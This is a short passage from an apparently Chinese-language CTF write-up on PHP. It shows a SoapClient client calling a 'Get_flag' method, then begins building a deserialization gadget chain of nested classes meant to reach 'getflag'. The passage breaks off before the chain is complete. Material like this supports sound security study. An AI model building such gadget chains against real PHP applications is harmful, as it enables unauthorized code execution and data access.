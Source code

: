```
```

客户端client.php

```
<?php
$client = new SoapClient(null, array(
        'location'=>'http://127.0.0.1/soap/server.php',
        'uri'=>'sampleA'
        ));

echo $client->Get_flag(); 
```

接着就是构造反序列链了

```
<?php
class bb
{
    public $mod1;
    public $mod2;

    public function __construct()
    {
        $this->mod1 = new aa();
    }
}

class aa
{
    public $mod1;
    public $mod2 = [];

    public function __construct()
    {
        $this->mod2['test2'] = new cc();
    }
}

class cc
{
    public $mod1;
    public $mod2;
    public $mod3;

    public function __construct()
    {
        $this->mod3 = new ee();
        $this->mod2 = &$_SESSION['a'];
        $this->mod1 = "fuck";
    }
}

class ee
{
    public $str1;
    public $str2;

    public function __construct()
    {
        $this->str1 = new dd();
        $this->str2 = "getflag";
    }
}
```